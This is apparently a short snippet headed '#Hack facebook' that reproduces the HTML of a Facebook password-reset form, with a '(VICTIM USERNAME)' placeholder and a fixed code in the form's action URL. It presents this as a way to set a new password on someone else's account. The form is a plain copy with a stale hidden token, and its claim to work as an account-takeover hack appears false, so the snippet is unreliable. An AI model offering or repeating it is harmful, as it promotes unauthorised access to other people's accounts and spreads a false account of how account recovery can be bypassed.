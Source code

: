 #Hack facebook
<form method="post" action="/recover/password?u=(VICTIM USERNAME)&n=389548" onsubmit="return window.Event && Event.__inlineSubmit && Event.__inlineSubmit(this,event)" id="u_0_4"><input type="hidden" name="lsd" value="AVoH0gpvlk4" autocomplete="off"><div class="mvl ptm uiInterstitial uiInterstitialLarge uiBoxWhite"><div class="uiHeader uiHeaderBottomBorder mhl mts uiHeaderPage interstitialHeader"><div class="clearfix uiHeaderTop"><div class="rfloat _ohf"><h2 class="accessible_elem">Choose a new password</h2><div class="uiHeaderActions"></div></div><div><h2 class="uiHeaderTitle" aria-hidden="true">Choose a new password</h2></div></div></div><div class="phl ptm uiInterstitialContent"><div class="mvm uiP fsm">A strong password is a combination of letters and punctuation marks. It must be at least 6 characters long.</div><table class="uiInfoTable" role="presentation"><tbody><tr class="dataRow"><th class="label"><label for="password_new">New Password</label></th><td class="data"><input type="password" class="passwordinput" id="password_new" name="password_new" tabindex="1" autocomplete="off"><label class="mls uiButton" for="u_0_0"><input value="?" onclick="show_pwd_help(); return false;" tabindex="3" type="button" id="u_0_0"></label><div id="password_new_status"></div></td></tr><tr class="dataRow"><th class="label"><label for="password_confirm">Confirm Password</label></th><td class="data"><input type="password" class="passwordinput" id="password_confirm" name="password_confirm" tabindex="2" autocomplete="off"><div id="password_confirm_status"></div></td></tr></tbody></table><div class="mvl"><div class="mvm">To make sure your account's secure, we can log you out of any other computers and phones. You can log back in with your new password.</div><div class="mvm"><div class="uiInputLabel clearfix uiInputLabelLegacy"><input type="radio" checked="1" name="reason" value="kill_sessions" onclick="CSS.hide(ge("chpw_survey_hacked_warn&quotWink)" class="uiInputLabelInput uiInputLabelRadio" id="u_0_1"><label for="u_0_1" class="uiInputLabelLabel">Log me out of other devices</label></div><div class="uiInputLabel clearfix uiInputLabelLegacy"><input type="radio" name="reason" value="keep_sessions" onclick="CSS.show(ge("chpw_survey_hacked_warn&quotWink)" class="uiInputLabelInput uiInputLabelRadio" id="u_0_2"><label for="u_0_2" class="uiInputLabelLabel">Keep me logged in</label></div></div><div class="mtm hidden_elem" id="chpw_survey_hacked_warn" style="color:red;">If your account was hacked, please select "Log me out of other devices"</div></div></div><div class="uiInterstitialBar uiBoxGray topborder"><div class="clearfix"><div class="rfloat _ohf"><label class="uiButton uiButtonConfirm" id="btn_continue" for="u_0_3"><input value="Continue" name="btn_continue" type="submit" id="u_0_3"></label><a class="uiButton" href="/" role="button" name="reset_action"><span class="uiButtonText">Cancel</span></a></div><div class="pts"></div></div></div></div></form>
